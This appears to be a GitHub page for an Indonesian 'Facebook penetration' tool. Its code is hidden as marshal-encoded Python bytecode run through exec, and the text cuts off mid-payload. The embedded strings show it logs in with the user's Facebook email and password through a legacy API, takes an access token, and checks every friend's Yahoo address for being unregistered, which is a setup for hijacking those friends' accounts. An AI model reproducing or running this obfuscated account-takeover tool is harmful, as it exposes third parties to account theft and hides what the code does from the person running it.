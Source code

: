 # tools-fbold
Ini adalah alat  penetrasi facebook lama yang bodoh
1.import marshal
exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x83\x01\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00d\x00\x00d\x01\x00l\x01\x00Z\x01\x00d\x00\x00d\x01\x00l\x02\x00Z\x02\x00d\x00\x00d\x01\x00l\x03\x00Z\x03\x00d\x00\x00d\x01\x00l\x04\x00Z\x04\x00d\x00\x00d\x01\x00l\x05\x00Z\x05\x00d\x00\x00d\x01\x00l\x06\x00Z\x06\x00e\x07\x00e\x04\x00\x83\x01\x00\x01e\x04\x00j\x08\x00d\x02\x00\x83\x01\x00\x01e\x05\x00j\t\x00\x83\x00\x00Z\n\x00e\n\x00j\x0b\x00e\x0c\x00\x83\x01\x00\x01e\x02\x00j\r\x00d\x03\x00\x83\x01\x00\x01d\x04\x00GHe\x02\x00j\r\x00d\x05\x00\x83\x01\x00\x01d\x06\x00GHe\x02\x00j\r\x00d\x07\x00\x83\x01\x00\x01d\x08\x00GHe\x02\x00j\r\x00d\x07\x00\x83\x01\x00\x01d\t\x00GHe\x0e\x00d\n\x00\x83\x01\x00Z\x0f\x00e\x0e\x00d\x0b\x00\x83\x01\x00Z\x10\x00d\x0c\x00e\x0f\x00\x17d\r\x00\x17e\x10\x00\x17d\x0e\x00\x17Z\x11\x00e\x06\x00j\x12\x00e\x11\x00\x83\x01\x00Z\x13\x00e\x01\x00j\x14\x00e\x13\x00\x83\x01\x00Z\x15\x00d\x0f\x00e\x15\x00k\x06\x00r6\x01e\x15\x00d\x0f\x00\x19Z\x16\x00d\x10\x00GHn\x0f\x00d\x11\x00GHe\x04\x00j\x17\x00\x83\x00\x00\x01e\x00\x00j\x18\x00d\x12\x00e\x16\x00\x17\x83\x01\x00Z\x19\x00e\x01\x00j\x1a\x00e\x19\x00j\x1b\x00\x83\x01\x00Z\x1c\x00d\x13\x00GHd\x14\x00\x84\x00\x00Z\x1d\x00e\x1d\x00\x83\x00\x00\x01d\x01\x00S(\x15\x00\x00\x00i\xff\xff\xff\xffNt\x04\x00\x00\x00utf8t\x05\x00\x00\x00clears;\x00\x00\x00\x1b[1;36m====================================================s\x1a\x00\x00\x00figlet -f slant Email Vulns4\x00\x00\x00====================================================s\x07\x00\x00\x00sleep 2s<\x00\x00\x00\x1b[39m[\x1b[31m*\x1b[39m] HARAP CONNECTION HIDUP \x1b[39m[\x1b[31m*\x1b[39m]s<\x00\x00\x00\x1b[39m[\x1b[31m*\x1b[39m] LOGIN FB DULU BOS      \x1b[39m[\x1b[31m*\x1b[39m]s\x1d\x00\x00\x00\x1b[39m[\x1b[31m*\x1b[39m] Email   : s\x1d\x00\x00\x00\x1b[39m[\x1b[31m*\x1b[39m] Password: s\x91\x00\x00\x00https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=s\x17\x00\x00\x00&locale=en_US&password=sH\x00\x00\x00&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6t\x0c\x00\x00\x00access_tokens4\x00\x00\x00\x1b[39m[\x1b[31m+\x1b[39m] LOGIN BERHASIL \x1b[39m[\x1b[31m+\x1b[39m]s7\x00\x00\x00\x1b[39m[\x1b[31m+\x1b[39m] \x1b[31mLOGIN VAILED \x1b[39m[\x1b[31m+\x1b[39m]s3\x00\x00\x00https://graph.facebook.com/me/friends?access_token=s3\x00\x00\x00\x1b[39m[\x1b[31m+\x1b[39m] Berhasil Mendapatkan ID Teman...c\x00\x00\x00\x00\x0f\x00\x00\x00\x06\x00\x00\x00C\x00\x00\x00sd\x02\x00\x00g\x00\x00a\x00\x00d\x01\x00a\x01\x00d\x02\x00d\x03\x00d\x04\x00\x14\x17GHd\x05\x00d#\x00\x17d\x08\x00\x17d$\x00\x17d\n\x00\x17d%\x00\x17d\x0c\x00\x17d&\x00\x17d\n\x00\x17GHd\x03\x00d\x04\x00\x14GHx\x16\x02t\x02\x00d\x0e\x00\x19D]\n\x02}\x00\x00d\x02\x00}\x01\x00d\x0f\x00}\x02\x00t\x01\x00d\x10\x007a\x01\x00t\x00\x00j\x03\x00t\x01\x00\x83\x01\x00\x01t\x04\x00j\x05\x00d\x11\x00|\x00\x00d\x12\x00\x19\x17d\x13\x00\x17t\x06\x00\x17\x83\x01\x00}\x03\x00t\x07\x00j\x08\x00|\x03\x00j\t\x00\x83\x01\x00}\x04\x00y\x9c\x01t\n\x00j\x0b\x00d\x14\x00\x83\x01\x00}\x05\x00|\x05\x00j\x0c\x00|\x04\x00d\x15\x00\x19\x83\x01\x00j\r\x00\x83\x00\x00}\x06\x00d\x16\x00|\x06\x00k\x06\x00rG\x02t\x0e\x00j\x0f\x00d\x17\x00\x83\x01\x00\x01t\x10\x00t\x0e\x00j\x11\x00_\x12\x00t\x0e\x00j\x13\x00d\x18\x00d\x01\x00\x83\x00\x01\x01|\x04\x00d\x15\x00\x19t\x0e\x00d\x19\x00<t\x0e\x00j\x14\x00\x83\x00\x00j\x15\x00\x83\x00\x00}\x07\x00t\n\x00j\x0b\x00d\x1a\x00\x83\x01\x00}\x08\x00y\x19\x00|\x08\x00j\x0c\x00|\x07\x00\x83\x01\x00j\r\x00\x83\x00\x00}\t\x00Wnq\x00\x01\x01\x01d(\x00}\n\x00d\x1d\x00t\x16\x00|\x04\x00d\x15\x00\x19\x83\x01\x00\x18}\x0b\x00|\x0b\x00d\x07\x00\x14}\x0c\x00d\x1e\x00t\x16\x00|\n\x00\x83\x01\x00\x18}\r\x00|\r\x00d\x07\x00\x14}\x0e\x00d\x05\x00|\x01\x00\x17|\x04\x00d\x15\x00\x19\x17|\x0c\x00\x17d\x05\x00\x17|\x02\x00\x17|\n\x00\x17|\x0e\x00\x17d\x1f\x00\x17GHwR\x00n\x01\x00Xd \x00|\t\x00k\x06\x00r\xdd\x01d*\x00}\n\x00n\x06\x00d,\x00}\n\x00d\x1d\x00t\x16\x00|\x04\x00d\x15\x00\x19\x83\x01\x00\x18}\x0b\x00|\x0b\x00d\x07\x00\x14}\x0c\x00d\x1e\x00t\x16\x00|\n\x00\x83\x01\x00\x18}\r\x00|\r\x00d\x07\x00\x14}\x0e\x00d\x05\x00|\x01\x00\x17|\x04\x00d\x15\x00\x19\x17|\x0c\x00\x17d\x05\x00\x17|\x02\x00\x17|\n\x00\x17|\x0e\x00\x17d\x1f\x00\x17GHn\x00\x00WqR\x00\x04t\x17\x00k\n\x00r[\x02\x01\x01\x01qR\x00XqR\x00Wd\x00\x00S(-\x00\x00\x00Ni\x00\x00\x00\x00s\x05\x00\x00\x00\x1b[36mi7\x00\x00\x00t\x01\x00\x00\x00-s\x07\x00\x00\x00\x1b[36m| i\x0b\x00\x00\x00t\x01\x00\x00\x00 s\n\x00\x00\x00\x1b[35mEmaili\x0e\x00\x00\x00s\x06\x00\x00\x00\x1b[36m|i\t\x00\x00\x00s\t\x00\x00\x00\x1b[33mVulni\x08\x00\x00\x00t\x04\x00\x00\x00datas\x05\x00\x00\x00\x1b[39mi\x01\x00\x00\x00s\x1b\x00\x00\x00https://graph.facebook.com/t\x02\x00\x00\x00ids\x0e\x00\x00\x00?access_token=s\x03\x00\x00\x00@.*t\x05\x00\x00\x00emails\t\x00\x00\x00yahoo.coms_\x00\x00\x00https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.comt\x02\x00\x00\x00nrt\x08\x00\x00\x00usernames$\x00\x00\x00"messages.ERROR_INVALID_USERNAME">.*i\x06\x00\x00\x00s\r\x00\x00\x00\x1b[31mNot Vulni\x1e\x00\x00\x00i\x18\x00\x00\x00s\x07\x00\x00\x00 \x1b[36m|s"\x00\x00\x00"messages.ERROR_INVALID_USERNAME">s\t\x00\x00\x00\x1b[32mVulni\x05\x00\x00\x00s\x0b\x00\x00\x00           s\x0e\x00\x00\x00              s\t\x00\x00\x00         s\x08\x00\x00\x00        s\x06\x00\x00\x00      s\x13\x00\x00\x00      \x1b[31mNot Vulns\x08\x00\x00\x00        s\x11\x00\x00\x00        \x1b[32mVulns\x05\x0
